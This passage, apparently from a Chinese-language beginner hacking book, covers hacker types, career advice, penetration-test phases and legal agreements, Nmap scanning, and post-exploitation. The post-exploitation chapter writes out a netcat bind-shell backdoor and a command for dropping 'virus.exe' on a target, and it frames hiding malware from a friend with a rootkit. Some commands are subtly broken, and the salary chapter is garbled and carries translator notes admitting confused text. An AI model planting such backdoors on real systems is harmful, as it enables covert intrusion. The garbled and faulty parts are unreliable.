当个人甚至许多人的信用卡信息被盗取时，一旦证实，银行将对受害者进行补偿；然而，如果个人丢失了个人信息，如个人照片、视频或任何作品，那将是弥的。

黑客知道某些个人信息可能是无价的，他们经常使用勒索受害者的手段。勒索受害者的趋势似乎各异；但平均金额在 200 美元至 500 美元之间。

他们在黑入受害者电脑后，最常用的策略是将其锁定并要求在 24 小时内支付 400 美元，还会设置一个倒计时计时器来促使你付款。

一旦黑客入侵系统，按照传统做法，他们会分析被劫持的是什么，并根据可能的价值索要价格。例如，如果黑客在不同的假期里发现了 10,000 张家庭照片，他们会要求支付 2,000 美元，由于某些受害者因为金额太大而冒着不付款的风险，黑客已经改变了游戏规则。


他们不再浪费时间尝试分析被劫持系统的潜在价值，而是继续劫持系统，并索要大多数人可以立即支付的较低价格。

遗憾的是，这些游戏并没有就此结束。最近我们经常在新闻中听到黑客接管了医院的网络，并威胁说，除非支付 1 万美元，否则将在 24 小时内破坏所有医疗设备。

在我听过的大多数故事中，黑客通过比特币获得了报酬，而且我从未听说过这些黑帽黑客曾被抓到。在构建医院网络时，所有者并没有考虑过会被劫持，但现在网络安全必须加强，因为黑帽黑客变得非常冷血，他们正在升级自己的手段。

我们现在结束这一关于黑客帽种介绍以及不同黑客之间区别的章节。我们将转向更有趣的话题；然而，解释这一切是如何开始的是公平的，通过观察黑客的历史，我们将更好地理解黑客的动机和日常生活。

## 精英黑客 (Elite Hackers)

精英黑客是那些提供了大部分技术知识和技能的人。

大多数新手都想通过使用现有工具来证明自己的技能。但由于他们没有自己独特设计的工具，在其他知名黑客中总是很难获得认可。

创造目前尚不存在的新工具不仅需要花费大量的时间和精力，还需要巨大的脑力和持续的学习。大多数新来者并没有设计和创建新工具，而是直接把脚伸入深水并开始黑客。

当他们开始黑客时，因为想要获得认可，他们会尝试做一些卓越的事情，比如尝试攻破一个大型组织，或者进行比任何人都更长的控制，或者一些在人群中引人注目的事情。

经验丰富的黑客不需要询问实现此类成就涉及的步骤，因为他们知道只需要几个额外的方法就能造成那种规模的破坏。所以，他们并不太在意这些。

另一方面，精英黑客之所以获得这个称号，是因为他们确实想出了可以改变黑客思维或任何人思维的独特东西。

他们想出来的是以前从未见过的东西，这个术语适用于任何类别，例如：

取得这样的结果会被经验丰富的黑客认可，并将这些人授予精英黑客的称号。

要成为一名精英黑客，无疑需要多年时间才能将整个互联网视为一个透明的游乐场。这需要大量的努力、耐心，以及与任何可能干扰你成功的因素隔离开。

## 黑客行动主义 (Hacktivists)

这类黑客并不完全是白帽，因为他们不是为某人赚工资，但同时他们确实帮助任何需要关注的人，至少在黑客主义者的眼中是这样。

另一方面，很难说他们是黑帽黑客。他们的意图通常是帮助，但为了实现这一点，他们可能会非法活动。

我们可能应该将他们归为灰帽；然而，他们行为背后的动机并非物理性的，更像是一种言论自由运动。

现实中很难解释他们的目标是什么，因为他们有时自我介绍为政治理想主义者，但涉及到某种宗教时，他们往往非常显眼。

重要的是要提到他们是互联网的天使。你必须理解，如果他们愿意，他们可以非常无情。由于互联网及其增长，他们中有很多高水平的黑客，他们可以黑入任何个人以及大型公司，删除任何内容，或者将你的个人信息公开，而他们不会索要任何赎金。

基本上，他们随心所欲，他们的社区变得越来越越来越强大。由于这些原因，许多公司希望他们被抓到，但并没有特定的领袖。黑客行动主义是一个任何人都可以加入的社区，但同时如果你选择反对他们，那也不明智。

他们的言自由运动是最著名的。当他们黑入某些高安全性网站时，他们会公布发现，并通过这些方法兼顾行动主义和黑客。这就是黑客行动主义名字的由来。

# 第五章：入门道德黑客

安全无疑是技术领域最热门的领域之一。幸运的是，公司和政府日益关注系统安全和用户数据保护，短时间内，该领域开始需要更多安全审计、黑客、漏洞分析和攻击缓解方面的专家……

该领域确切地说，是指成为一名黑客并在网络安全领域工作所具备技能和能力。

为了实现这一目标，我们与该领域的几位专家讨论了这一话题，例如 Yago Jesús、María García 和 Oliver López。

Yago Jesús 是 *Security By Default* 的编辑之一，负责 eGarante 平台，并通过 Securízame 在线平台教授安全培训课程。María García 是 *A Penny of Security* 的编辑，也是一名公职人员，具体负责 IT 安全领域；而 Oliver López 则是一位信息安全管理专家，在大型公司和公共机构拥有 11 年的经验。

### 如何开始学习计算机安全？

最基础的问题有时是最难回答的，但如果有人想在网络安全领域发展职业生涯，他们应该从哪里开始呢？

对于 Yago 来说，幸运的是时代发生了很大变化，信息不再像以前那样隐秘，因此，对于任何感兴趣的人来说，它都变得更容易获取了：

“目前，时代显然已经发生了很大变化。大约 10 到 15 年前，唯一的培训方式是阅读 IRC 频道，通常是一个非常自学的过程。目前，随着安全领域的专业化，已经有了非常优质的培训，无论是面对面还是在线形式。”

María 选择在编程、系统管理、数学……等关键领域打下坚实的基础，例如，读大学可以是一个很好的起点：

“如果你在这些问题上没有良好的基础，那么直接攻击安全性是没意义的（除非你想致力于合规性工作）。攻读技术类工程是不错的。虽然也有人是自学或通过职业经验学习的，但我认为正规的教育有助于理清头绪，且不会遗留任何知识盲点。”

为了进入安全世界，Oliver 认为最重要的是**动力**：

“你必须先对某一个安全领域产生兴趣和好奇心。但对于任何事情都是如此，没有兴趣或好奇心，你就没有足够的动力投入时间和精力去学习和提高。所以，如果你不感兴趣，省省时间投入到能激励你的事情上。一旦你明确了这一点……就像那个比喻：如何吃掉大象？……一口一口地吃。”

开始的方法有很多，阅读书籍和博客、参加培训和获取认证等。

### 选择什么平台？

另一个需要考虑的要素要素是使用什么平台。显然，基于 Linux 的系统与安全领域密切相关，但根据专家的说法，其范围要宽泛得多。

Yago Jesús 同时致力于 Linux 和 Windows，因为微软系统是最广泛的系统之一，完全熟悉它是非常有意义的：

“人们认为今天 Linux 和 Windows 均取得了跨越式的发展，两者都具有相似的功能。一个有技术追求的人可以同时前进并深入研究这两个平台，尽管理想情况是理解并精通两者。”

由于 Windows 是一个更为人知的操作系统，而且每个人或少都有过经验，一个有趣的挑战是完全卸载 Windows，安装 Linux 发行版，并学习与它一起生活至少 1 年。

对于 Maria 来说，如果你必须专注于某个平台，请选择关注 Linux：

“Linux 带来的斗争较少，但 Windows 更普及。”

Oliver 在工具和平台方面要务实得多：

“对于操作系统，全都要或一个都不要，从角度来看，重要的是拥有清晰的概念；工具不是最重要的。在这一点上你必须打破常规，尝试一切，并始终使用最适合当前情况和你知识水平的工具。”

### 有什么特定的培训吗？

到目前为止，我们非常看重安全专家能力培养中最自学的部分。然而，考虑到开始出现的各种培训提议，应该参加什么样的培训呢？

Yago 倾向于选择领域专家提供的培训，重要的是培训计划背后的老师，这正是他们在 Securízame 平台所做的事情：

“Securízame 是真正的实战派，这无疑会是我的首选。涵盖了诸如取证分析、渗透测试或非常困难且通常非常昂贵的课题：漏洞利用和逆向工程。”

正如我们在开头提到的，María 致力于工程教育、学位或也许是高等职业教育周期可以提供的基础知识。从这个基础出发，范围非常广泛：

“你也可以从国家密码学中心（National Cryptology Center）的课程开始，它们非常基础，但对于初学者来说非常好，老师也很优秀。

然而，这些课程仅对官员、军方和 CNI 成员开放。SANS 课程声誉很高，但非常昂贵。在某些情况下，可以通过攻读硕士学位来获得安全方面重要的通识基础，然后从那里寻求专业化。”

Oliver 也是塞维利亚大学硕士课程的导师，他也指出了目前存在的各种选择，无论是硕士还是认证：

“幸运的是，选择越来越多。在 Incibe 网站上有一份安全硕士列表，其中一些是值得的。还有认证，它们迫使你更新和复习概念；最受欢迎的是 ISC2 的认证，因为它们更具实践性。”

### 为什么在计算机安全领域工作？

作为高潮，有一个与技能和能力无关，但与某种绝对必要的事情相关的问题：动力。为什么在安全领域工作？什么吸引了我们的专家？

对于 Yago 来说，计算机安全是纯粹的创造力：

“我认为计算机安全非常有创造力，即使在最技术概念中也存在创造之美。随着保护手段的进步，找到跳过它们的方法是非常兴奋的。从防御的角度来看，提出一个系统或工具并观察人们如何规避它也是一种挑战。”

对于 Maria 来说，安全是一个影响我们生活许多领域的水平世界：

“我最喜欢安全世界的一点是它非常多样。很难无聊，因为你总有新的视野可以探索；你也可以专注于你最喜欢的部分，放下一些更糟糕（或完全不需要）的部分，而你仍然会很有用。

它也是一个相当水平的世界（影响我们生活的许多领域），而且像‘电影’一样：虚构中看到的很多事情都被现实超越，与这些事物接触并能够理解它们（在某种程度上），会让你的生活更加精彩。”

对于 Oliver 来说，安全让你了解事物是如何运作的：

“有很多事情吸引着我。如果非要选一个：它让你知道事物是如何运作的。不仅在技术层面，还包括组织和人是如何工作的。不要忘记，技术的设计、开发、管理和使用都需要人。”

# 第 6 章：渗透测试流程


# 渗透测试流程

渗透测试由安全评估技术的组合构成，这些技术考虑了计算机安全系统中的各种问题以提供解决方案。这些技术构成了渗透测试期间遵循的重要步骤。以下是渗透测试演练期间遵循的步骤：

## 1) 计划与准备

计划和准备是渗透测试的第一步。在这里，你被执行所有与渗透测试相关的初步活动。首先，你需要定义渗透测试的目标。渗透测试最常见的几个目标包括：

- 提高组织计算机基础设施的安全性
- 识别计算机安全系统中的主要漏洞并加强安全机制
- 使计算机系统的安全性符合特定监管机构的标准

除了定义渗透测试目标外，还需要确定测试的性质和范围。你可能希望进行浅层测试以满足外部机构对你计算机系统安全的认可，或者你可能选择涵盖大范围的更广泛范围以确保你的计算机得到了良好的保护。在这里你根据你的目标做出决定。

你还需要聘佣一名合格的渗透测试员来完成这项工作。这是一个重要的步骤，因为它将帮助你由一个没有偏见的专业人士完成测试。除了聘佣专业人士外，你可能希望为测试准备系统。你可以通过备份来做到

备份您的数据，以便在过程中不会丢失任何关键数据。

## 2) 侦察 (Reconnaissance)

侦察涉及对要测试计算机系统的所有初步信息进行分析，以决定要遵循的方法。如果测试者是黑帽测试人员，那么他或她对系统的了解可能非常少，例如初始阶段仅有一个 IP 地址。接下来，测试者可能会选择从互联网收集额外信息，以研究这些信息并将其用于进行测试。对于白帽测试，测试者会从所有者处获得有关计算机系统的充分信息，他/她必须研究这些信息，以便在进行渗透测试的其他阶段时做出明智的决策。

在被动渗透测试阶段，侦察的主要目标是获取被测试计算机系统的清晰轮廓。有时测试者可能会向客户请求更多信息，以便对被测试系统有详细描述。

## 3) 发现 (Discovery)

这是渗透测试过程中非常重要的一步。一旦渗透测试人员对要测试的计算机系统有了清晰的了解，他们现在使用自动化工具扫描目标系统，以发现系统中的漏洞。通常，用于此工作的自动化工具有一个特殊的数据库，帮助它们监控并测试系统中最新风险和漏洞的细节。在许多情况下，渗透测试人员将寻求发现：

- 网络发现

这指的是发现连接到目标系统的额外网络，如服务器、计算设备和计算机系统。

- 主机发现

这种发现评估计算机系统，并试图发现系统设备上的开放端口和网关。

- 服务器问询

在这里，自动化工具对开放端口进行问询，以找出在这些端口上运行的精确服务。

## 4) 分析信息和风险 (Analyzing Information and Risks)

一旦测试者使用自动化系统收集了有关系统的足够信息，测试者现在需要分析收集到的信息。

由于某些计算机系统可能很大且具有广泛的基础设施，这一步可能会消耗大量时间。这也是渗透测试人员识别系统内真实漏洞的地方。因此，这一步的执行必须非常细心，以识别所有的漏洞以及对计算机系统的潜在威胁。

在分析信息和风险时，考虑渗透演练定义的目标、渗透测试工作的预计时间以及系统所面临的潜在风险是非常重要的。这些重要元素将确保分析以正确的方式进行，并使测试者能够确定系统中的所有主要漏洞。

## 5) 主动入侵尝试 (Active Intrusion Attempts)

这是最重要的一步，需要谨慎执行。这一步探索了在发现阶段识别出的每个漏洞在多大程度上对计算机系统构成了实际风险。这一步不应草草完成，因为它对计算机系统构成威胁。事实上，只有在需要对潜在漏洞进行验证时才应考虑它。对于需要满足极高完整性标准的系统，在进行这一关键清理过程之前，必须仔细分析潜在风险和漏洞。

## 6) 最终分析 (Final Analysis)

这是最后一步，因此作为对已执行所有步骤的反思。在这里，渗透测试人员必须检查所有发现的漏洞和潜在风险及其规模和潜在的攻击向量。利用这些信息，渗透测试人员需要制定消除系统中识别出的风险和漏洞的可能方法，并采用技术加强系统。在这一阶段，测试者需要向客户保证测试的透明度，并披露所有发现的漏洞和风险。

## 7) 报告准备 (Report Preparation)

渗透测试人员是如何交流他们的发现结果的？测试者需要写一份报告，首先列出测试程序，并解释对风险和漏洞的分析。在报告中讨论风险和漏洞时，重要的是从关键漏洞和高风险开始，然后是风险较低的漏洞。在攻击发生之前，采取立即措施来纠正关键漏洞和高风险的问题非常重要。

在编写报告时，你可以考虑以下大纲：

- 渗透测试过程摘要
- 每一步的详细描述以及在该一步中收集的信息
- 对所发现的风险和漏洞的详细描述
- 关于如何清理和修复计算机系统的详细讨论
- 增强系统安全性的建议措施

### 渗透测试中的法律问题 (Legal Issues In Penetration Testing)

在请人来测试敏感计算机系统之前，企业考虑许多问题是非常重要的，例如：数据的机密性、可用性和完整性。为了工作流程顺畅，组织考虑签署一份概述其合作内容的法律协议是重要的。

协议中应该解决的某些法律问题包括：

- 如果渗透测试人员对客户是未知的，如何让他或她访问敏感数据？
- 谁对在此过程中丢失的数据负责？
- 如果客户指责测试人员导致机密性丢失，会怎样？

渗透测试过程可能会影响给定计算机系统的运行方式，这可能会引发涉及数据完整性和机密性的问题。因此，执行渗透测试的团队与被测试系统的管理员之间达成书面协议是非常重要的。

即使渗透测试是由内部人员执行的，他们仍然需要协议或书面许可来完成工作。协议是重要的，因为它将澄清与数据安全和披露相关的要点，如果违反，可能会导致法律诉讼。

除了协议外，在工作开始之前，还需要客户和测试人员共同起草并签署一份意向声明。意向声明有助于澄清有关测试目标和范围的问题。这很重要，因为让每个人都知道该过程的预期结果。该声明还可能澄清过程中应重点关注的区域以及应忽略的区域。

参与过程的双方彼此了解并且对要执行的任务有很好的描述是非常重要的。渗透测试人员应该了解要测试的目标系统，以及谁拥有该系统或业务。同时，客户应该了解测试人员、其资质并拥有他们的联系方式。这是重要的，因为它将确保：

- 测试者拥有一份明确定义了执行渗透测试参数的书面许可
- 客户拥有渗透测试人员的完整细节，并确保系统上的数据将得到应有的对待。

总之，渗透测试的双方在工作开始前拥有的法律协议是非常重要的。这有助于澄清涉及系统完整性、机密性以及工作范围的问题。在开始工作之前，考虑你所在种的法律也是重要的。不同国家有不同的法律来指导其 ICT（信息通信技术）部门。这意味着客户和测试人员在开始工作准备协议时都应该考虑这些法律。

# 第 7 章 网络扫描

信息收集阶段已经结束，它让我们收集了包括 IP 地址列表在内的信息。

现在是时候扫描这些 IP 地址中的每一个了。我说的“扫描”到底是什么意思？这些 IP 地址中的每一个都会向外部世界暴露某些服务/端口。

我们需要通过扫描它们来识别与某个活动服务相对应的端口。

例如，Web 服务器极有可能监听 `80` 或 `443` 端口，以便接受基于 *HTTP、HTTPS* 协议的请求。

有几种扫描技术可以选择。其中一些是静默的，另一些则并不如此。在本章中，我们将分析其中一些。

### Kfsensor

为了看到网络扫描技术的实际运行，我们需要在特定机器上暴露服务，或者可以使用一个非常实用的工具来让这些步骤变得简单。它被称为 `KFSensor`，是一个“**蜜罐**”。

蜜罐是故意留有漏洞的机器，有时被用来迷惑潜在的攻击者。我们通常使用它们来将对手引向这个陷阱，以便我们研究和分析他们的行为。

`KFSensor` 是一个适用于 Windows 操作系统的蜜罐。因此，你需要在 Windows 7 或 10 虚拟机上安装该软件。

你可以从官方网站下载 30 天免费试用版：`http://www.keyfocus.net/kfsensor/`。

安装 `KFSensor` 后，你就可以配置我们需要的服务了。这些服务将由软件模拟，就像真实的一样。

在这里我们可以看到机器上所有模拟服务的列表。此列表将允许我们测试各种网络扫描技术。

### Wireshark

在开始之前，我建议你安装一个网络“**嗅探器**”，这是一个允许你收集和分析所有网络流量的工具。嗅探器中最好的无疑是 `Wireshark` (`https://www.wireshark.org/`)。

在我们启动各种网络扫描时，你仍然保持 `Wireshark` 运行，以便观察网络流量层发生了什么。

### Arping 与二层网络扫描

我们应该提到的第一点是，网络既可以在 ISO/OSI 模型的数据链路层扫描，也可以在网络层扫描。

我们将从数据链路层开始。让我先介绍我们将使用的第一个工具：**ARPING**。

在*数据链路层（第 2 层）*进行扫描只有在局域网（LAN）内进行时才有意义。在本地网络中，我们主要处理 MAC 地址和 ARP 协议。

现在连接到 Kali Linux 机器，并在安装了 `KFSensor` 的 Windows 机器上运行数据链路层扫描（称为 ARP 扫描）。

我们需要输入此命令：`arping address IP -c 2`。其中 `2` 是发送的数据包数量，但你也可以输入任何你想要的数字。

如果机器处于活动状态并连接到网络，这就是你应该看到的屏幕：

记住始终保持 `Wireshark` 激活，通过 ARP 关键字过滤，并分析网络流量。在两台机器上都分析会更好。


### Nmap 与二层网络扫描

Nmap 是最广泛、最可靠且功能最全的网络扫描工具。它允许我们执行从第 2 层开始的多类型扫描。

Nmap 还包含了一系列额外功能，例如漏洞扫描器和用于枚举系统的模块。

在本节中，我们将使用 Nmap 进行第 2 层扫描。在此之前，我想向你展示 Nmap 执行工作的阶段。

1. 名称解析。
2. NSE 脚本预扫描阶段。
3. 主机发现。我们现在处于这个阶段。
4. 并行反向名称解析。
5. 端口或协议扫描。
6. 服务版本检测。
7. 操作系统指纹识别。
8. 追踪（Traceroute）。
9. NSE 端口规则和主机规则脚本扫描阶段。

现在，让我们关注主机发现阶段。我们必须指示 Nmap 不要执行任何类型的端口扫描，只需检查网络上哪些主机是活跃的。

这是一个基于 ARP 协议和 MAC 地址的第 2 层扫描。`*-sn*` 是你应该用来指示 Nmap 的选项。这就是为什么我们应该启动此命令：

`192.168.1.100-150` 是我们测试的 IP 地址范围。我们可能处理的是单个地址或一个子网。

我们始终可以通过 `Nmap` 控制局面并检查发生了什么：

正如我之前已经指出的，这种第 2 层扫描只在与 MAC 地址进行通信的本地上下文中才有意义。

在局域网之外，我们只使用 IP 地址，因此网络扫描被设置为更高的层次，即网络层“第 3 层扫描”。

### 三层网络扫描的有用发现

使用 IP 地址而不是主机名更好，这样可以避免进行 DNS 查询并可能更改已获得的结果。我们显然需要设置一些限制。

在处理托管多个网站的 Web 服务器时，使用主机名和 DNS 解析是有意义的。

对于大型网络，完成扫描可能需要更长时间。因此，建议使用较小的网络样本或仅关注一小范围的端口。

### 使用 Nmap 进行 Ping 扫描

我们现在转向最简单的第 3 层扫描。为了这样做，我们将使用一种称为 ICMP（互联网控制消息协议）的特殊协议，这意味着我们既不使用 TCP 也不使用 UDP。`ICMP` 执行各种控制功能，包括网络内某些主机的可达性检查。为了这一点，我们使用 PING 命令，并通过 `-c` 选项指定要发送的 ICMP 数据包数量到目标机器或网络。

不要忘记用 Wireshark 检查网络流量。你应该使用 `icmp` 过滤器。

Wireshark 清晰地向我们展示了我们正在使用的协议以及数据包交换如下：

- 回显请求。攻击主机向目标机器发送了 ICMP 包。
- 回显响应。目标机器发送了响应包。

### TCP 和 UDP 协议

我们现在检查第 4 层，传输层。

传输层主要由两个两个协议组成：`TCP` 和 `UDP`。

这两个协议的主要区别是 TCP 是面向连接的协议，而 UDP 没有连接。基本上，当我们需要使用 TCP 时，必须通过建立双方之间的连接来实现。它们都应该想要并能够相互通信，否则将没有信息交换。从这一点可以推断出 TCP 是一种可靠的协议，除了罕见且可管理的异常外，它可以确保发送信息的接收。相反，使用 UDP 我们没有确定性。另一方面，UDP 是一种非常快的协议，而 TCP 由于必须执行的所有额外检查，效率较低。

让我们看看 TCP 和 UDP 数据包包含哪些字段。

### TCP 控制标志位

为了这样做，它在网络数据包中使用一系列额外信息，我们感兴趣的是所谓的“TCP 标志位”。共有六个：

- SYN。
- ACK。
- RST。
- FIN。
- PSH。
- URG。

SYN 和 ACK 是最重要的 TCP 标志位，因为它们参与了“三次握手”。该程序允许 TCP 协议建立通信。

`RST` 标志的出现表明我们需要重置连接。这可能是由于连接错误引起的，而 FIN 标志表示发送者没有其他数据需要接收。

### 三次握手

这种连接创建过程完全基于 SYN 和 ACK 标志。

假设我们有两台机器：

- 想要建立连接的 PC A。
- 正在等待建立连接的 PC B。

交换如下：PC A 设置包的 SYN 标志并将其发送到 PC B。一旦 PC B 收到，它将设置包的 SYN 和 ACK 标志并将发送到 PC A。

当 PC A 收到 SYN-ACK 时，它会向 PC B 发送带有 ACK 标志的数据。

如果一切顺利，连接应该已经正确建立。

三次握手是两个实体之间的数据包交换，它们使用 `TCP` 标志（SYN 和 ACK）来组织它们的通信。

我们可以在 Wireshark 上找到所有需要的信息，正如下方的截图所示：

第 25 号数据包 SYN 标志处于激活状态，第 26 号是带有 SYN 和 ACK 的副本，第 27 号带有 ACK 的包开始了通信。

这里是第一个数据包的截图，其中 SYN 标志被设置为 1。这意味着它是激活的：

### 自定义网络包的创建

有多种软件选项允许创建和修改在网络中传输的数据包（*数据包封制*）。

`Colasof Packet Builder` 让我们能够选择要创建或修改的数据包类型。

在选择类型（例如 TCP）后，让我们从创建一个数据包开始：

### 第4 层网络扫描 - 连接扫描 (Connect Scan)

现在我们将一起学习执行第4 层扫描的最简单技术：`连接扫描（CONNECT SCAN）`。这种扫描会建立 TCP 连接。换句话说，它完成了三次握手，这使得扫描非常嘈杂且容易被识别。

我建议使用 KFSensor、Wireshark 和 Nmap 来执行此模拟：

- 启动 KFSensor 并选择要监控的服务，例如 80 端口。
- 启动 Wireshark 并找到正确的网络接口，通过 TCP 进行过滤。
- 启动 Nmap 然后运行扫描：

通过 Wireshark，我们应该确认扫描已经发生：

作为一项测试，我们可以验证 KFSensor 上也检测到了扫描。

### 第4 层网络扫描 - SYN 扫描 (Syn Scan)

现在让我们检查 SYN 类型扫描，它与 `连接型` 扫描不同，它并没有完全完成三次握手。我们几乎可以说它完成了一半。

交换过程如下：

- 攻击者发送一个带有 SYN 标志的数据包。
- 受害者回传一个带有配置好的 SYN 和 ACK 标志的数据包作为响应。
- 此时，攻击者并不完成握手，而是发送一个带有 RST 标志的数据包。这将强制重置连接而不会完全建立连接。

这是一种相对“静默”的扫描。如果目标网络中有跟踪已建立连接的系统，它不会记录这次连接尝试。这是因为没有连接被完全建立。

在这里，我们也应该启动 Nmap 并运行以下命令：

我们现在需要用 Wireshark 验证扫描，并检查攻击机器发送的 RST 标志：

最后，我们用 KFSensor 验证扫描，它甚至可以准确检测到我们使用 `SynScan` 的尝试：

Nmap 可以成功完成此次扫描：

### 第4 层网络扫描 - UDP 扫描 (Udp Scan)

之前的扫描与 `TCP` 协议有关。然而，UDP 协议也可以提供有趣的结果，因为它经常被低估且没有受到网络管理员的充分保护。

请记住 UDP 协议是无连接的，因此其行为与 TCP 不同。

特别是，如果对某个端口启动扫描且我们没有收到任何响应，那么我们可以假设该端口是开放的。否则，我们将收到 ICMP 错误消息，简而言之这意味着端口是关闭的或无法提供重要信息。

我们应该配置 KFSensor 并模拟一个端口为 `53413` 的 `UDP` 类型服务。例如：

让我们用 Wireshark 进行监听，并同时在指定的端口上用 Nmap 启动 UDP 扫描：

让我们用 Wireshark 分析流量：

第一行和第四行显示了发送的 UDP 包。由于我们找不到任何 `ICMP` 数据包，我们可以假设扫描是成功的，且端口 53413 实际上开放的。

让我们尝试一个随机的 UDP 端口（因此肯定不会开放）并用 Wireshark 查看结果：

如你所见，在这种情况下，ICMP 数据包立即返回，信号我们门是关闭或被过滤的。我们实际上知道它不存在。

关于网络扫描的章节到此结束。显然，还有其他扫描类型和技术，你可以在读完这本书后自行学习。

在此链接处，你可以找到官方 Nmap 文档：

`https://nmap.org/book/man.html`

# 第 8 章 渗透后 (Post Exploitation)

一次良好的渗透测试的最后一步涉及从远程系统维持访问权限。换句话说，在目标系统中留一个后门是重要的，以防将来可能想再次利用它。请记住，后渗透是公司甚至希望禁止其雇佣的渗透测试员执行的行为。许多人担心这些后门可能会被具有恶意的人发现，因此请务必确保已获得客户授权以继续此步骤。

许多组织希望获得报告以了解后渗透是否可能以及随之而来的风险。他们知道现在许多黑客对维持连接和吸收尽可能机密数据感兴趣。快速攻入一个系统并在几分钟内拿走一切的时代已经结束了。这种行为的改变使得你理解恶意黑客在创建后门时是如何操作的至关重要。


当涉及到黑客时，后门到底是什么？它是攻击者留在目标计算机上的脚本或应用程序。该工具将在后台静默运行而不被察觉，并允许黑客随心所欲连接到该机器。请记住，后门只有在它活跃运行时才是有用的。在很多情况下，当电脑重启时你会失去访问权限（shell）。然而，一切并非全失，因为你可以将你的 shell 移动到永久位置，而这是通过后门的帮助实现的。

### 使用 Netcat

这是一个用于维护一台计算机与另一台计算机之间通信的基本工具。它可以作为后门软件，但它还有其他功能。你可以使用 Netcat 执行端口扫描、传输文件等。为了本章的目的，我们将涵盖基础知识以让你上手。

Netcat 可以以两种不同的模式运行。一种是客户端模式，允许你建立网络连接；另一种是服务器模式，接受任何入站连接。让我们来看使用 Netcat 的基本示例。为此你需要两台机器。我们将从设置它作为两台计算机之间的通信通道开始。为了使之工作，你需要在服务器模式下运行它并连接到任何端口。为了示例示例，我们假设目标设备运行的是 Linux。

输入以下命令：

`nc -l -p 1337`

让我们拆解它以理解该命令的作用。我们通过“`nc`”命令启动 Netcat 工具。然后我们使用“`-l`”启用监听模式，也称为服务器模式。现在程序将等待连接到端口 1337。现在让我们切换到攻击计算机并输入以下命令与监听器连接：

`nc 192.142.42.121 1337`

这将使 Netcat 连接到 IP 地址为 192.142.42.121 的设备的 1337 端口。这两台机器现在应该连接并可以相互通信。但我们如何知道这起作用了？使用两台计算机中的任意一台，打开终端并输入内容。你在一台机器上输入的任何内容将在另一台机器上显示。杀死连接，只需按下 `CTRL + C`。虽然 Netcat 的这种基础用法很有趣，但你可能永远不会将其作为聊天系统，所以让我们看看如何用它来传输文件。

我们可以借助 Netcat 在两台计算机之间传输文件，但我们不想对目标进行多次利用。此操作目的是利用系统并留一个后门供以后使用。那么，如何从你的电脑向目标发送文件？只要 Netcat 在第二台电脑上仍在运行，输入：

`nc -l -p 6666 > virus.exe`

我们使用这行命令告诉目标计算机监听端口 6666。通过该端口收到的任何内容都将存储在一个名为“`virus.exe`”的文件中。现在切换到你的攻击机并指定你想发送的文件。你可以发送任何类型的文件，因为你不受扩展名的限制。如果你运行的是 Linux，可能没有 .exe 文件，那么就发送其他东西。命令看起来应该是：

`nc 192.142.42.121 6666 > virus.exe`

你可以切换到目标计算机，并使用“`ls`”命令列出它收到的新文件。

你可以使用 Netcat 与目标建立连接，然后连接到未知端口。你只需通过输入内容即可发送一些信息。目标会响应，根据其响应方式，你可以判断该端口运行的服务。

接下来，我们可以使用 Netcat 通过远程连接与进程进行交互。通过这种方式，你可以像坐在目标计算机前一样操纵该进程。这一切都可以通过“`-e`”开关完成，该开关用于运行我们指定的任何程序。

这也是我们创建后门的方法。我们首先使用“`-e`”开关将目标计算机的命令 shell 绑定到任何端口。稍后我们可以对该端口建立连接，并强制启动“`-e`”开关后指定的程序。输入以下命令查看操作效果：

`nc -l -p 1111 -e /bin/sh`

此命令将为任何连接到端口 1111 的人提供一个 shell。记住，我们现在发送的任何指令都将在目标计算机上执行。

### Rootkits（根内核）

Rootkits 是可以轻松安装的简单小工具。它们非常有用，因为你可以用它们完美地隐藏各种文件和程序，就像它们从不存在过一样。你甚至可以从操作系统本身隐藏这些文件。由于这项功能，它们主要用于逃避任何杀毒软件并安装后门或记录信息。

Rootkits 还可以挂钩操作系统与任何软件之间的基础调用。这使得它们甚至能够修改基本功能。想象一下以下场景：你的朋友想检查他的 Windows 上运行着哪些程序和进程，于是他按下 `CTRL + ALT + DEL` 打开任务管理器。他看着当时运行的所有软件，然后离开了。他并不知道的是你发送了一个恶意程序并用 rootkit 掩盖了它。通过这种方式挂钩 rootkit，当他打开任务管理器时，你恶意软件背后的进程就消失了。因此，他没有看到任何异常并离开了。

出于本书的目的，我们不会深入探讨 rootkits 的使用。目前，了解渗透后的基础知识足够了。只需记住，有方法可以掩盖足迹并在目标机器上隐藏文件和程序。它们的目的是隐藏你在利用目标后可能留作以后使用的任何后门。

# 第 9 章 网络安全初级薪资

我不会对你撒谎。很多人想进入网络安全是因为它听起来很酷。对网络安全感兴趣的人下一个共同点是钱。是的，钱！只要薪水足够高，人们乐意学习任何东西，对吧？这是事实。好了，重点来了：在美国，初级网络安全岗位的平均收入差异很大。这种运作方式很糟糕。它可能在每年 6.5 万美元到 9 万美元之间，甚至高达每年 10 万美元。

请不要将此视为最准确的估计，正如我所说，它实际上差异很大，因为你的薪水取决于你的工作地点。例如，哪个州，哪个城市，以及公司想要付多少。因为这是初级网络安全岗位的平均水平，并不意味着当你搬到偏远地区的华盛顿州时，某家公司会给你 7 万美元，好吗？

你可能会找到一个只提供 4 万美元甚至更少的工作，也许他们会将你看作一个完全的初学者，只提供 2 万美元。在我的情况下，我曾作为餐厅经理赚入约 3 万英镑，大约是 4 万美元。我知道我必须离开餐饮业，所以我努力学习了两年多，一旦我获得进入 IT 行业的机会，即使薪水比我以前少得多，我也没有犹豫。就薪水而言，我知道随着时间推移会更多。

当时有一个初级网络工程师的职位，我恰好认识公司里的几个人，所以我申请并得到了那工作。最初，他们说大约是 2.5 万英镑，我不高兴但我说这完美了。

遗憾的是，当签署实际合同时，他们只在写了 2 万英镑，我感到非常沮丧，但我像个傻子一样不断告诉自己如果继续学习，以后会更多，甚至达到 3 万英镑。一年内，我找到了另一份工作，薪水没有涨，只有 3.4 万英镑。随着时间推移，薪水涨到了 3.9 万英镑。又过了一年，薪水涨到了 4.6 万英镑，由于目前的职位，我大约赚入 7 万美元，每年 9 万美元。这有效吗？100% 不，原因如下：

（此处原文似乎存在大量重复的乱码/翻译错误，已按要求逻辑处理）

[注：此处部分文本原文逻辑混乱]

所以，我说我是这家公司唯一的匈牙利人。事实上的确没有学位，是的，但我拥有多个 Cisco、Checkpoint 和安全领域的认证，我最近一直在学习这些内容，并持续不断地进行重新认证。因此，我一直在跟上时潮流，而不是到处跟人说我有一个 20 年前的学位。

你可能不记得，但在 20 年前，我们甚至连 Wi-Fi 还没有，所以我可能知道一些他不知道的吗，对吧？而且，我对他说：“我有能力！”

